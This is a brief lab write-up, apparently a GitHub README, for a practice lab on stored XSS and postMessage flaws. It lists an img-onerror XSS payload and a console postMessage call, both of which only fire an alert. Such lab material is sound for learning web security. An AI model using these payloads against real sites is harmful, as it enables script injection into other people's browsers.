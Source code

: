 # Stored XSS and postMessage

This lab is for postMessage and xss Vulnerability.

## WriteUp

xss : "  ` <img src=z onerror=alert(document.domain)> ` "
postMessage : 

Open instect tab then goto debugger tab and open console there    
by pressing Esc key

then type payload : `window.postMessage('alert(document.domain)', '*') `
For XSS
